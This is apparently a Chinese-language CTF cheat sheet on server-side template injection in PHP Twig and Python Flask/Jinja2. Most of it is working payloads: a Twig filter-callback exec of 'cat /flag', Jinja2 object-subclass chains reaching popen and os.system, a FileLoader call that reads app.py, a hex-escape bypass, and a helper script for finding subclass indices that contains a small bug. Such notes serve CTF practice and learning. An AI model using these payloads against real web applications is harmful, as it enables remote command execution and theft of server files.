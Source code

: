 

### php ssti

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```





## python相关

### flask ssti

检测：用{{7*7}}类似的语句去检测

相关语句：

```python
''.__class__.__bases__    # 查看基类 (<class 'object'>,)
"".__class__.__mro__    # 查看解析方法调用的顺序 (<class 'str'>, <class 'object'>)
"".__class__.__bases__[0].__subclasses__()    # 返回object子类的集合 不同的py版本返回的子类也不同
# <class 'os._wrap_close'> 是比较好利用的类
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__ # 查看类中比较好利用的方法
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('dir').read()  # 基本完整的利用流程

# 下面是一些特殊的
{{config}}    # 查看配置信息
{{()["__class__"]}}  # {{()["\x5f\x5fclass\x5f\x5f"]}}
{{()["__class__"]["__bases__"][0]["__subclasses__"]()[80]["load_module"]("os")["system"]("ls")}}     # 用<class '_frozen_importlib.BuiltinImporter'>这个去执行命令
{{()["__class__"]["__bases__"][0]["__subclasses__"]()[91]["get_data"](0, "app.py")}}     # 用<class '_frozen_importlib_external.FileLoader'>这个去读取文件
```

ssti查子类脚本：

```python
import re
_list = "".__class__.__bases__[0].__subclasses__()
_list = _list.split(',')
aim = [
"os._wrap_close",
'_frozen_importlib.BuiltinImporter',
'_frozen_importlib_external.FileLoader',
]


index = 0
for i in _list:
	tmp = str(i)
	for j in aim:
		p = re.findall(j, tmp)
		if len(p) != 0:
			print(f"find {j}, index = {index}")
	index += 1
```
